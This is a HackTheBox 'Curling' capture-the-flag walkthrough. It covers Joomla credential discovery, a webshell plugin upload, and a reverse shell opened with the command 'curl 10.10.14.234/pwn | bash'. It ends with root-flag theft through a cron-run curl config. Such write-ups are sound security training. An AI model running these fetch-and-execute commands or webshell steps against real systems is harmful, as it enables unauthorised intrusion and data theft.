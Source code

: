 # Curling

**Date**: 13/06/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Curling](https://app.hackthebox.com/machines/Curling)

---

Let’s start testing the connection with the target machine:

<figure><img src="../../.gitbook/assets/curling0.png" alt=""><figcaption></figcaption></figure>

We receive back the packet, so we have connection. Let’s scan the open TCP ports:

<figure><img src="../../.gitbook/assets/curling1.png" alt=""><figcaption></figcaption></figure>

The scan discovered 2 open TCP ports: 22 (ssh) and 80 (http). Let’s try to obtain the service and version running in these ports:

<figure><img src="../../.gitbook/assets/curling2.png" alt=""><figcaption></figcaption></figure>

We got OpenSSH 7.6p1 running in the port 22.

<figure><img src="../../.gitbook/assets/curling3.png" alt=""><figcaption></figcaption></figure>

According to launchpad, the target machine should be a Ubuntu Bionic.

And we have an Apache 2.4.29 service running in the port 80. We can also see that is hosting a Joomla. Let’s try to obtain more info of the website using whatweb:

<figure><img src="../../.gitbook/assets/curling4.png" alt=""><figcaption></figcaption></figure>

It doesn’t give us additional useful information. Let’s see how the website looks:

<figure><img src="../../.gitbook/assets/curling5.png" alt=""><figcaption></figcaption></figure>

It looks very simple. There are 3 post written by the user Super User. There is something in the first post that catches my eye, the word `curling2018`. It looks like a password maybe? The post is also signed by Floris, maybe that could be a username?It worth the try.

<figure><img src="../../.gitbook/assets/curling6.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling8.png" alt=""><figcaption></figcaption></figure>

Nope, at least not that combination of user and password. I also tried with `admin` and `administrator` usernames.

Let’s see the source code to see if we can obtain the Joomla version:

<figure><img src="../../.gitbook/assets/curling9.png" alt=""><figcaption></figcaption></figure>

secret.txt? weird… It would be a file accessible?

<figure><img src="../../.gitbook/assets/curling10.png" alt=""><figcaption></figcaption></figure>

Yes… it is. Maybe we can try to login again using that string as a password.

I tried, with no success. The way this string looks… maybe is coded in b64?

<figure><img src="../../.gitbook/assets/curling11.png" alt=""><figcaption></figcaption></figure>

Yeah! Let’s try again:

<figure><img src="../../.gitbook/assets/curling12.png" alt=""><figcaption></figcaption></figure>

Woho! We succeded login with the credentials!

We seen that the SSH port was open, let’s try to use this credentials to gain access to the target machine:

<figure><img src="../../.gitbook/assets/curling14.png" alt=""><figcaption></figcaption></figure>

Ok, this credentials are not valid for the SSH connection.

Let’s see if we can access to the administration panel of the Joomla:

<figure><img src="../../.gitbook/assets/curling15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/curling16.png" alt=""><figcaption></figcaption></figure>

Yup! Let’s see if we can see the version:

<figure><img src="../../.gitbook/assets/curling17.png" alt=""><figcaption></figcaption></figure>

As we are inside the administration panel, maybe we can install a webshell or a reverse shell php file… Let’s investigate.

After a research, I found this github repo:

[https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)

It contains a Joomla extension that we can upload to the website and it will give us a webshell. Pretty cool!

So, let’s follow all the instructions! And try to execute a command!

<figure><img src="../../.gitbook/assets/curling18.png" alt=""><figcaption></figcaption></figure>

Yeah! We succesfully executed the `ls` command!

Let’s see if we can ping out machine from the target machine:

<figure><img src="../../.gitbook/assets/curling19.png" alt=""><figcaption></figcaption></figure>

Yes we can! Let’s try to establish a revshell to operate more easily:

First of all, I’m going to create a `pwn` file in my system with the payload to establish a reverse shell and share it using a http server:

<figure><img src="../../.gitbook/assets/curling20.png" alt=""><figcaption></figcaption></figure>

Now, I’m going to execute a command that will read that file from my computer and will pipe it to the bash, executing the command:

`curl 10.10.14.234/pwn | bash`

but URL encoded:

`curl%2010.10.14.234%2Fpwn%20%7C%20bash`

<figure><img src="../../.gitbook/assets/curling21.png" alt=""><figcaption></figcaption></figure>

And we obtained a revshell.

<figure><img src="../../.gitbook/assets/curling22.png" alt=""><figcaption></figcaption></figure>

We have no permissions to read the user flag, but we can read the password_backup file:

<figure><img src="../../.gitbook/assets/curling23.png" alt=""><figcaption></figcaption></figure>

Let’s copy it in our machine:

<figure><img src="../../.gitbook/assets/curling24.png" alt=""><figcaption></figcaption></figure>

It looks like an hexadecimal version of something, let’s try to get the original file:

`xxd -revert password_backup password_backup_original`

<figure><img src="../../.gitbook/assets/curling25.png" alt=""><figcaption></figcaption></figure>

Ok, we got a bzip2 file. Let’s decompress it using bzip2 tool:

<figure><img src="../../.gitbook/assets/curling26.png" alt=""><figcaption></figcaption></figure>

And… now we have a gzip file… let’s rename it and decompress it:

<figure><img src="../../.gitbook/assets/curling27.png" alt=""><figcaption></figcaption></figure>

And… another bzip2 file… let’s decompress it:

<figure><img src="../../.gitbook/assets/curling28.png" alt=""><figcaption></figcaption></figure>

Now a POSIX tar. Let’s decompress it too:

<figure><img src="../../.gitbook/assets/curling29.png" alt=""><figcaption></figcaption></figure>

Finally a txt file!

Ok, it’s a strange password, but let’s try to use it to login as `floris` via SSH:

<figure><img src="../../.gitbook/assets/curling30.png" alt=""><figcaption></figcaption></figure>

Yeah, we are in! Let’s read the user flag:

<figure><img src="../../.gitbook/assets/curling31.png" alt=""><figcaption></figcaption></figure>

Now we have to escalate our privileges… Let’s start looking if we have sudo privileges:

<figure><img src="../../.gitbook/assets/curling32.png" alt=""><figcaption></figcaption></figure>

Nothing. Let’s look for SUID binaries:

<figure><img src="../../.gitbook/assets/curling33.png" alt=""><figcaption></figcaption></figure>

None of them (except polkit) can be used to escalate… Let’s look for binaries with capabilities:

<figure><img src="../../.gitbook/assets/curling34.png" alt=""><figcaption></figcaption></figure>

Nothing useful. Maybe there is a cronjob?

<figure><img src="../../.gitbook/assets/curling35.png" alt=""><figcaption></figcaption></figure>

Nope. Maybe can we edit something that is in the PATH?

<figure><img src="../../.gitbook/assets/curling36.png" alt=""><figcaption></figcaption></figure>

Ok, I’m out of ideas, so let’s go back to the initial point. There is a folder we have not inspected yet.

The modification date of the files was suspicious, I waited a minute to confirm that they are being updated each minute.

<figure><img src="../../.gitbook/assets/curling37.png" alt=""><figcaption></figcaption></figure>

Nice moment to use pspy to see what’s going on.

<figure><img src="../../.gitbook/assets/curling38.png" alt=""><figcaption></figcaption></figure>

each minute, the input file is being overwritten and after that, a curl command is being executed. I’m sure I can use this to escalate or, at least, to read the /root/root.txt flag.

<figure><img src="../../.gitbook/assets/curling39.png" alt=""><figcaption></figcaption></figure>

the `-K` option reads the config from input file.

<figure><img src="../../.gitbook/assets/curling40.png" alt=""><figcaption></figcaption></figure>

The input is pointing to [localhost](http://localhost) IP.

Ok, so I think that there are some possibilities:

1. Try to edit the content of `input` file after the script that executes each minute does it and before the automatic `curl` command.
2. Try to redirect the [localhost](http://localhost) to other folder instead of `/var/www/http`
3. Try to include a file into the web the curl is requesting that only root has access to (/root/root.txt)

Let’s start with the first one.

<figure><img src="../../.gitbook/assets/curling41.png" alt=""><figcaption></figcaption></figure>

After looking to the pspy a while, we can recognize some scripts being executed:

- `/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input` : This script is waiting 1 second, and then, copying the content of the file **default.txt** inside the **input** file
- `curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report` : This script is doing a **curl** to the url inside the **input** file and saving the response inside the file **report**

I’m thinking that, as the first script is waiting 1 second before executing the curl, maybe is executing after the curl script. This would mean that if we edit the input file, the curl may use our URL instead of the default one? Let’s try.

As `curl` accepts the `url="file//path-to-file"` parameter, we can point to `/root/root.txt` hoping the flag is there. If it’s there and this script is executing first, we should copy the content of the flag into the `report` file. We have to be fast, as after 1 minute, the cult command will use the default input file and will overwrite the report file.

<figure><img src="../../.gitbook/assets/curling42.png" alt=""><figcaption></figcaption></figure>

So, I have changed the content of `input`. As can be seen in the bottom of the image, after the change, the report remains as the webpage content.

<figure><img src="../../.gitbook/assets/curling43.png" alt=""><figcaption></figcaption></figure>

After a minute I performed a `cat report` command, and voila! We got the root flag content.